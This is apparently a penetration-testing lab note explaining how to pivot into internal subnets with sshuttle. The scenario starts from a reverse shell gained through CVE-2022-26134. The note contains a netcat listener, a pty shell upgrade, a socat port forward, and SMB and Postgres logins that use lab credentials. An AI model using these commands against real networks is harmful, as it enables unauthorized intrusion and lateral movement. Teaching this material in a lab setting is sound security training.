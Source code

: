 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Sshuttle

`sshuttle` is a tool that creates a VPN-like tunnel over SSH. It transparently routes traffic to specified subnets through an SSH connection. It requires `root` **privileges** **on the** **client (attacker)** machine and **Python 3** on the **SSH server** (pivot host).

> _Particularly useful when **classic dynamic port forwarding is cumbersome** to manage._

[Tunelling scenario](../ssh-tunelling.md) recap:

1. Got a reverse shell on `CONFLUENCE01` (`192.168.125.63`) via CVE-2022-26134.
2. We can SSH to `PGDATABASE01` (`10.4.125.215`) from `CONFLUENCE01`.
3. Our goal is to access the following internal networks: `10.4.125.0/24` and `172.16.125.0/24`.

{% tabs %}
{% tab title="1. Local Port Foward" %}
We can set up a port forward on `CONFLUENCE01`, forwarding local port `2222` to `PGDATABASE01:22` using `socat`. This makes `PGDATABASE01`’s SSH service available on `CONFLUENCE01:2222`.

{% code overflow="wrap" %}
```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ socat TCP-LISTEN:2222,fork TCP:10.4.125.215:22
```
{% endcode %}
{% endtab %}

{% tab title="2. Sshuttle" %}
Then we can use `sshuttle` from Kali to route desired subnets through the forwarded SSH connection. `-r` specifies the SSH connection string (`user@pivot_host:port`) followed by the list of subnets to route.

{% code overflow="wrap" %}
```bash
$ sshuttle -r database_admin@192.168.125.63:2222 10.4.125.0/24 172.16.125.0/24
...
database_admin@192.168.125.63's password: #sqlpass123
client_input_hostkeys: hostkeys_foreach failed for /home/x7331/.ssh/known_hosts: Permission denied
c : Connected to server.
```
{% endcode %}
{% endtab %}

{% tab title="3. Connect" %}
We can now test the pivoted access by connecting to an internal service (e.g., SMB on `HRSHARES`) **without any additional port forwards.**

{% code overflow="wrap" %}
```bash
$ smbclient -L //172.16.125.217/ -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk
        Users           Disk
        
$ psql -h 10.4.125.215 -p 5432 -U postgres
Password for user postgres: # D@t4basePassw0rd!
...
postgres=#
```
{% endcode %}
{% endtab %}
{% endtabs %}
